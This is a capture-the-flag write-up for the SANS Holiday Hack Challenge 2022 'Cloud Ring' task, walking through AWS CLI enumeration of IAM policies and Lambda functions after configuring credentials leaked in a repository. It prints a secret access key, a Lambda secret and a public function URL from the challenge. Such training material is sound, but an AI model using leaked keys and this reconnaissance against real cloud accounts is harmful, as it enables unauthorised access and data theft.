 # SANS Holiday Hack Challenge 2022 - KringleCon V: Golden Rings
## Recover the Cloud Ring
### Exploitation via AWS CLI
**Difficulty**: 🎄🎄🎄

This challenge walks through identifying and escalating IAM privileges in AWS using the AWS CLI. The goal is to enumerate roles and discover misconfigurations that allow privilege escalation through AWS Lambda.

---

###  Hints

#### Inline Policies
Inline policies are directly attached to a single identity (like a user or role). Unlike managed policies, they cannot be reused across multiple users.

#### Privilege Escalation Vectors
Advanced privilege escalation may involve AWS Lambda or S3. A great walkthrough can be found in Chris Elgee’s talk on IAM abuse in AWS.

---

###  Solution Walkthrough

#### 1. Configure AWS CLI with Exposed Credentials

We start by cloning the repo and identifying exposed AWS credentials using Trufflehog. Then configure the CLI:
```bash
aws configure
# Access Key: X
# Secret Key: e95qToloszIgO9dNBsQMQsc5/foiPdKunPJwc1rL
# Region: us-east-1
```

Verify credentials:
```bash
aws sts get-caller-identity
```

#### 2. Enumerate Attached IAM Policies
```bash
aws iam list-attached-user-policies --user-name haug
```

We discover the user has a policy named `TIER1_READONLY_POLICY`.

#### 3. View Policy Document
```bash
aws iam get-policy --policy-arn arn:aws:iam::602123424321:policy/TIER1_READONLY_POLICY
```

Then fetch the actual permissions:
```bash
aws iam get-policy-version   --policy-arn arn:aws:iam::602123424321:policy/TIER1_READONLY_POLICY   --version-id v1
```

#### 4. Investigate Lambda Functions
The policy grants Lambda read access:
```bash
aws lambda list-functions
```

This reveals `smogmachine_lambda`. Let's view the environment variables and code path:
```bash
aws lambda get-function-configuration --function-name smogmachine_lambda
```

#### 5. Check Lambda Public Access
Check if there’s a public URL tied to the Lambda:
```bash
aws lambda get-function-url-config --function-name smogmachine_lambda
```

Success! The function has a public endpoint using AWS_IAM auth and leaks a secret:
```
https://rxgnav37qmvqxtaksslw5vwwjm0suhwc.lambda-url.us-east-1.on.aws/
```

Environment variables:
- `LAMBDASECRET`: 975ceab170d61c75
- `LOCALMNTPOINT`: /mnt/smogmachine_files

---

###  Summary

By chaining together IAM policy enumeration, Lambda environment analysis, and public function exposure, we uncovered credentials and secrets within AWS—demonstrating a practical AWS privilege escalation scenario.




